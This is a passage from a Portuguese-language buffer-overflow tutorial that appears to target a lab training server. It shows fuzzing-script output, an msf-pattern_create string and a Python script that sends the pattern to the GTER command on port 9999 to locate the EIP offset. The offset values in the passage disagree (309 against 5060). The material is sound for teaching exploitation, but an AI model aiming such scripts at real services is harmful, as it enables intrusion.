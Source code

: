 ```python
        s.close()
        sleep(1)
        payload = payload + b"A"*100
    except:
        print("Buffer estourado em %s bytes"%(str(len(payload))))
        sys.exit()
```

![Enumaração do comando.](/img/std/winbof/winbof-25.png)

Temos o offset de 309 bytes para criarmos nosso payload.

Sabendo disso, precisamos encontrar o offset preciso para atingir o EIP, vamos utilizar o msf-pattern_create para criar uma string distinta.

```bash
$ msf-pattern_create -l 309             
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2

```

Vamos inserí-lo em nosso script.

xplgter.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# payload a ser enviado
offset = 5060

payload = b"GTER /.:/" # funcao inicial
#payload += b"A" * offset 
payload += b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()

print("Payload enviado!")
```
